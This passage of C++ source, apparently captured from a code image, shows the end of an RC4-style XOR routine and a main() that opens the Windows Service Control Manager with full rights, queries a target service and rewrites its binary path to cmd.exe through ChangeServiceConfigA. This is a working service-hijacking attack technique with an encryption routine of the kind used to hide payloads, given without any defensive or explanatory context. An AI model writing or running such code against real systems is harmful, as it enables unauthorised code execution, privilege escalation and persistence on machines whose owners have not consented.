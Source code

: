 ```cpp
        S[i] = S[j];
        S[j] = temp;

        data[k] ^= S[(S[i] + S[j]) % 256];
    }
}

int main() {
    // Define the service name
    const char* serviceName = "YourServiceName"; // Replace with the target service name

    // Define the path to a dummy executable
    const char* dummyBinaryPath = "C:\\Windows\\System32\\cmd.exe"; // Replace with a path that exists on the system

    // Open a handle to the service control manager
    SC_HANDLE scManager = OpenSCManagerA(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (!scManager) {
        std::cerr << "Failed to open service control manager. Error: " << GetLastError() << std::endl;
        return 1;
    }

    // Open a handle to the service
    SC_HANDLE service = OpenServiceA(scManager, serviceName, SERVICE_ALL_ACCESS);
    if (!service) {
        std::cerr << "Failed to open service. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(scManager);
        return 1;
    }

    // Query the original service configuration
    DWORD bytesNeeded = 0;
    QueryServiceConfigA(service, NULL, 0, &bytesNeeded);
    LPQUERY_SERVICE_CONFIGA originalConfig = (LPQUERY_SERVICE_CONFIGA)LocalAlloc(LPTR, bytesNeeded);

    if (!QueryServiceConfigA(service, originalConfig, bytesNeeded, &bytesNeeded)) {
        std::cerr << "Failed to query service configuration. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        return 1;
    }

    // Modify the service binary path
    BOOL success = ChangeServiceConfigA(
        service,                    // Service handle
        SERVICE_NO_CHANGE,          // Service type (no change)
        SERVICE_NO_CHANGE,          // Start type (no change)
        SERVICE_NO_CHANGE,          // Error control (no change)
        dummyBinaryPath,            // Path to the dummy service binary
        NULL,                       // Load order group (no change)
        NULL,                       // Tag ID (no change)
        NULL,                       // Dependencies (no change)
        NULL,                       // Service start name (no change)
        NULL,                       // Password (no change)
        NULL                        // Display name (no change)
    );

    if (!success) {
        std::cerr << "Failed to change service binary path. Error: " << GetLastError() << std::endl;
```